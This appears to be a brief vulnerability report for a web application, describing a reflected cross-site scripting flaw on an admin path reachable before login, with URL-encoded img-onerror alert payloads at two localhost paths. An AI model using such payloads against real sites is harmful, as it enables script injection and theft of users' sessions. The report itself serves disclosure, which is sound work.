

# name 
reflection xss

# path
http://127.0.0.1:9999/admin/index
befor login

# xss Payload
PAYLOAD update
http://127.0.0.1:9999/viewc/admin/%3Cimg%20src=lll%20onerror=alert(111)%3E%3C!--

DEprecate: http://127.0.0.1:9999/admin/index/%3Cimg%20src=lll%20onerror=alert(111)%3E%3C!--

# image

